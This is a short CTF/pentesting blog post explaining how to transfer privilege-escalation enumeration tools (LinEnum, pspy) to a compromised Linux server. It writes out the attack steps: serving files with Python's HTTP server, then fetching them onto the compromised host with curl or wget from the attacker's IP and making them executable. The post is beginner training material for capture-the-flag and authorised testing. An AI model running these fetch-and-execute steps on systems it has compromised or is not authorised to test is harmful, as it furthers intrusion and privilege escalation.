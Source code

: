 
+++
title = "Upload enumeration tools to a linux server"
date = "2019-07-21T1:00:00+02:00"
description = "One of the first things I was asking myself when finally getting access to a linux server at my very beginning was 'How do I even upload the enumeration tools to do the privilege escalation?'. I got the question from someone who was beginning on HTB recently so this short article might help."
draft = false
toc = false
categories = ["post"]
tags = ["enumeration", "ctf", "privesc", "linenum", "pspy"]
images = [
  "https://i.imgur.com/t7YRxYU.png"
] # overrides site-wide open graph image

+++

## Privilege Escalation (privesc)

When getting access to a server, either during a CTF or a pentesting assignment, you will probably have a limited access to the server itself. Probably because you accessed it through a compromised user. Your goal is to find a way to become root which would give you unlimited access to the server and the running programs. See, developers and sysadmins can make mistakes and have the programs running with the wrong settings. Leveraging these mistakes can give you the keys to root.

Here are two extensive guides about privesc for Windows and Linux:
<ul>
<li><a href="https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/" target="_blank">Windows privesc guide</a></li>
<li><a href="https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/" target="_blank"> Linux privesc guide</a></li>
</ul>

You'll notice in these guides that, to find the mistakes that will get us root, it's all about enumerating the server permissions, the programs running, the cron jobs, etc. And we have tools to do that for us!

I have a very limited experience in Windows privesc so I will explain how to upload enumeration tools to Linux servers only in this post.
<br><br>

## The tools

From my <a href="/tools/pentest">Tools list</a>, you'll find these two very useful enumeration tools:

<a href="https://github.com/DominicBreuker/pspy" target="_blank">pspy</a>
{{< hackcss-alert type="info" >}}
pspy is a command line tool designed to snoop on processes without need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute. Great for enumeration of Linux systems in CTFs. Also great to demonstrate your colleagues why passing secrets as arguments on the command line is a bad idea.
{{< /hackcss-alert >}}

<a href="https://github.com/rebootuser/LinEnum" target="_blank">LinEnum</a>
{{< hackcss-alert type="info" >}}
Scripted Local Linux Enumeration & Privilege Escalation Checks.
{{< /hackcss-alert >}}
<br>

## The command lines

So now that we have the tools on our computer, how to get them to the compromised server?

Quite simple: we will use a python module called SimpleHTTPServer. It is normally used like other modules in python programs, but the SimpleHTTPServer module can also be invoked directly using the -m switch of the interpreter with a port number argument. This serves the files relative to the current directory.

{{< hackcss-alert type="info" >}}
python -m SimpleHTTPServer 80
{{< /hackcss-alert >}}

With python3:
{{< hackcss-alert type="info" >}}
python3 -m http.server 80
{{< /hackcss-alert >}}

Now anyone with your IP address and this port number can access this directory and its files through HTTP request, including the compromised server!

So we launch the SimpleHTTPServer from the directory where we have our LinEnum and pspy programs. And from the compromised linux server, we write:
{{< hackcss-alert type="info" >}}
curl $yourIP/linenum.sh
{{< /hackcss-alert >}}

cURL is a command-line tool for getting or sending data including files using URL syntax. Now your downloaded program won't have the permission to run so to make it executable, write: 
{{< hackcss-alert type="info" >}}
chmod +x linenum.sh
{{< /hackcss-alert >}}

And now to execute it, write "./linenum.sh" in the server directory where the downloaded linenum program is. 

Sometimes, curl will not be authorized to be used by the user you compromised, but you can use wget in this case. Let's use pspy this time as an example:
{{< hackcss-alert type="info" >}}
wget $yourIP/pspy64
{{< /hackcss-alert >}}

Same thing now, we do "chmod +x pspy64" and then "./pspy64", and it will run!

<img src="https://raw.githubusercontent.com/DominicBreuker/pspy/master/images/demo.gif">

I hope this was a useful article! There are probably other ways to upload files to a server such as using <a href="https://en.wikipedia.org/wiki/Netcat">netcat</a>, but I found the commands in this post to be the simplest for me. And of course I took the example of enumeration tools, but you can use it to upload many more useful tools you would need for your privesc!

Have fun uploading files now!

